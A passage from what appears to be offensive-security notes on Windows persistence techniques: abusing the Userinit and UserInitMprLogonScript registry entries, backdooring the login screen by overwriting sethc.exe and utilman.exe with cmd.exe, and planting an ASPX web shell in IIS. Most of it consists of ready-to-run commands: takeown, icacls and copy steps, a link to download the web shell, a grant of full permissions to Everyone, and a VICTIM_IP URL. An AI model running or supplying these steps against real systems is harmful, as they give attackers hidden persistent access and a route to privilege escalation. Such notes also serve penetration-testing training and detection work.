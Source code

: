 Attacker can append the generated executable to the `Userinit` or `shell` key using `;`.


### Logon scripts
Modification of registries keys may allow attacker to establish persistance. 

Program `userinit.exe` while loading user profile checks for an environment variable called `UserInitMprLogonScript` (`HKCU\Environment`). Programs placed in this variable would be executed.

Entry `UserInitMprLogonScript` should have `REG_EXPAND_SZ` type.

## Backdooring the Login Screen / RDP
### Sticky Keys
Sticky Keys is an accessibility feature that lets you press keyboard shortcuts (like `Ctrl+C` or `Alt+Tab`) without having to hold down multiple keys at the same time. To establish persistance attacker can overwrite `C:\Windows\System32\sethc.exe` binary which is responsible for `SHIFT` clicked 5 times.

```bat
takeown /f c:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

### Utilman
`Utilman` is a built-in Windows application used to provide `Ease of Access` options during the lock screen. To establish persistance attacker can overwrite `C:\Windows\System32\utilman.exe`

```bat
takeown /f c:\Windows\System32\utilman.exe
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

## Persisting Through Existing Services
### Using Web Shells
Attacker can establish persisance by using Web Shells. This method grants access with the privileges of the configured user in `IIS`, which by default is iis `apppool\defaultapppool`. Moreover, this user has `SeImpersonatePrivilege` which allow for privilege escalation.

Download [webshell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx) and place it in `C:\inetpub\wwwroot\` folder:
```
move shell.aspx C:\inetpub\wwwroot\
```

Grant permission to file (if necesarry):
```
icacls shell.aspx /grant Everyone:F
```

Open webshell in browser:
```
http://VICTIM_IP/shell.aspx
```








